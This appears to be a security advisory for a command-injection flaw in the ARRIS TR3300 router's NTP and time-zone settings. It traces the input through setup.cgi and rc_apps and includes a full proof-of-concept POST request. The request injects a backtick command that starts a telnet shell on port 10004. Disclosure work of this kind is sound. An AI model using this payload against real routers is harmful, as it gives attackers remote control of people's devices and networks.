






# ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `time and time zone` function(`ut_sys.html`), `h_primary_ntp_server、h_backup_ntp_server、h_time_zone` is directly passed by the attacker, so we can control the `h_primary_ntp_server、h_backup_ntp_server、h_time_zone` to attack the OS.

<div  align="center"></div>

First, accept and process the content of the field(`ntp_server、ntp_server2、time_zone`), and then call the function `nvram_set ` to store this input.

<div  align="center"></div>

In `rc_apps` binary:

Eventually, in `sub_4128E0` function, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"></div>


## PoC

We set `h_primary_ntp_server` as **`/usr/sbin/utelnetd -l /bin/sh -p 10004`**, and the router will excute it,such as:

```http
POST /setup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 672
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/ut_sys.html
Upgrade-Insecure-Requests: 1

year=1969&mon=12&day=31&hour=+16&min=4&sec=6&ecodis_conf=&userOldPswd=cGFzc3dvcmQ%3D&sysPasswd=cGFzc3dvcmQ%3D&sysConfirmPasswd=cGFzc3dvcmQ%3D&login_timeout=5&CurLang=English&time_zone=-8&auto_dls=0&primary_ntp_server=ntp.nasa.gov&backup_ntp_server=otc1.psu.edu&itsbutton1=Apply&h_igmp_proxy=&h_eco_dim=&h_eco_dis=&h_eco_day1=&h_eco_day2=&h_eco_day3=&h_eco_day4=&h_eco_day5=&h_eco_day6=&h_eco_day7=&eco_clock=&eco_days=&http_passwd=cGFzc3dvcmQ%3D&h_time_zone=-8&h_auto_dls=enable&h_primary_ntp_server=`/usr/sbin/utelnetd -l /bin/sh -p 10004`&h_backup_ntp_server=otc1.psu.edu&h_upnp_enable=enable&h_auto_update=&todo=save&this_file=ut_sys.html&next_file=ut_sys.html&message=
```

<div  align="center"></div>


## Result

Get a shell!

<div  align="center"></div>
